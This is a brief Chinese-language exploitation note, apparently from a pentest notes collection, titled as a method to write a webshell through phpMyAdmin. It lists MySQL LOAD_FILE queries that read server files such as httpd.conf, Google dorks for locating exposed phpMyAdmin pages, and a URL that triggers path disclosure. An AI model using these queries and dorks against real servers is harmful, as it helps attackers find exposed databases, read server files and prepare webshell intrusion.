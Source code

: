 ##cve编号：无
##漏洞名称：写webshell
##漏洞类型：
##影响版本：全
##利用脚本：无
##漏洞细节：
- SELECT LOAD_FILE( '/etc/httpd/conf/httpd.conf' )
- SELECT LOAD_FILE( '/var/www/html/phpmyadmin/index.php' )
### google hacking
- inurl:sql.php 知名架构数据库名字如 dede phpcms 
- inurl:tbl_structure.php 任何你想到的。
- inurl:tbl_structure.php love 
- 暴路径 weburl+phpmyadmin/themes/darkblue_orange/layout.inc.php
##reference：
